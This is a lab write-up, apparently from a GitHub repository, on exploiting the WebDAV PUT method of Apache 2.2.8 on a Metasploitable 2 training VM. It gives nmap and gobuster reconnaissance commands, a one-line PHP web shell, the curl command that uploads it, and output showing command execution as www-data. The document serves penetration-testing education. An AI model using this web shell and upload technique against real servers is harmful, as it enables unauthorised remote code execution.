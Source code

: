 # 🌐 WebDAV RCE via PUT – Apache 2.2.8 (Port 80)

> This section covers the discovery and exploitation of the Apache WebDAV service running on port 80 on Metasploitable 2, which allowed file uploads and remote command execution.

---

## 🔍 Service Detection

```bash
nmap -p 80 -sC -sV 192.168.182.128
```

📌 Output:
- Apache httpd 2.2.8 ((Ubuntu) DAV/2)
- PHP/5.2.4-2ubuntu5.10
- WebDAV support detected

---

## 🧭 Directory Discovery

```bash
gobuster dir -u http://192.168.182.128/ -w /usr/share/wordlists/dirb/common.txt
```

📌 Interesting paths:
- `/dav`
- `/phpMyAdmin`
- `/phpinfo.php`

---

## ✅ Method Check for PUT Support

```bash
curl -X OPTIONS http://192.168.182.128/dav/ -i
```

📌 Output:
```
Allow: OPTIONS, GET, HEAD, POST, PUT, DELETE
```
✅ PUT method is enabled!

---

## ☠️ Uploading PHP Web Shell

Created a simple PHP shell :
```php
&lt;?php system($_GET['cmd']); ?&gt;
```

Uploaded via curl:
```bash
curl -T shell.php http://192.168.182.128/dav/shell.php
```

✅ Upload succeeded.

---

## 🚀 Command Execution via Browser

Accessed the shell from browser:
```bash
http://192.168.182.128/dav/shell.php?cmd=id
```

📌 Output:
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Additional commands:
```bash
http://192.168.182.128/dav/shell.php?cmd=whoami
http://192.168.182.128/dav/shell.php?cmd=uname -a
```

✅ Remote command execution achieved as `www-data`.

---

## 🔐 Summary

| Element       | Details                          |
|---------------|----------------------------------|
| Service       | Apache 2.2.8 + WebDAV            |
| Vulnerability | PUT method enabled               |
| Exploit       | PHP shell upload via `curl`      |
| Shell Type    | Browser-based RCE (?cmd=)        |
| User          | www-data                         |


